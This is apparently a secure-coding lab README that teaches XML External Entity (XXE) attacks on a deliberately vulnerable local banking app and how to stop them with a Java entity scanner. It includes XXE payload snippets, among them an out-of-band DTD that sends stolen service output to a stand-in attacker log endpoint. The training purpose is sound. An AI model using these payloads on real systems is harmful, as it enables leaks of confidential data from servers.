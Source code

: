 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications
1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Brief description of the exercise
The applications in this scenario are:
* the v-bank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/xxe, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim  
    * This service should normally not be available to the client calling the v-bank application. 
    * The response of this service is the confidential data the attacker steals or leaks by exploiting the XXE vulnerability.
    With the help of the XXE exploit the attacker manages to call the service and
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (you can see what has been logged at http://attack.127.0.0.1.xip.io:9090/viewlog)
\
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

### Hint 
XXE vulnerabilities are to be found where XML parsing/processing takes place.

### Present vulnerability 
_BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: The normal payload creating 2 transactions;
* xxe_call_service.xml: the XXE payload calling the victim service and parsing its response/output into the note field of the transaction;
* xxe_call_service_out-of-band.xml: XXE payload also calling the victim service whose response/output it sends to the attacker's log service.  

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the output of the _victim_ _service_ as its value. When processing the XML the _&victim_ entity reference actually behaves as a constant initialized with the output or response of the system resource at _http://service.127.0.0.1.xip.io:9090/victim_. 
     * Then because of the ```<note>&victim;</note>``` the XML parser places it into the the note field. When the XML processor finally creates the object of class _Transaction_ its _note_ property will be set accordingly.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_out-of-band.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
     * Please check the logs sent to the log service at: http://attack.127.0.0.1.xip.io:9090/viewlog
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks
    * (1) Add a lexical parser to preprocess the XML and fail if any entities are found 
    * (1) Configure the XML parser to:
      * disallow external DTDs so that it cannot not load the evil DTD
      * disallow entities in DTDs so that no system entities can be created within the DTD from files or URLs
      * allow secure XML processing: https://docs.oracle.com/javase/7/docs/api/javax/xml/XMLConstants.html#FEATURE_SECURE_PROCESSING  
      __The problem with this approach is that there are lots of XML processors (SAX, DOM, Stax, etc) and implementations (Xalan, Xerces, etc) and each has its own set of supported configuration features. For example, 
      with the current configuration I could not set any property on the parser to disallow external DTDs or entities and the SECURE_XML_PROCESSING feature did nothing. Therefore, you need to make sure that
      the XML stream or file does not contain entities before passed to the XML processor API (you can do it with the lexical parser).__
    * Hints:
      * (1) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (1) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is available in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
\
You may find more on XXE mitigation at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md
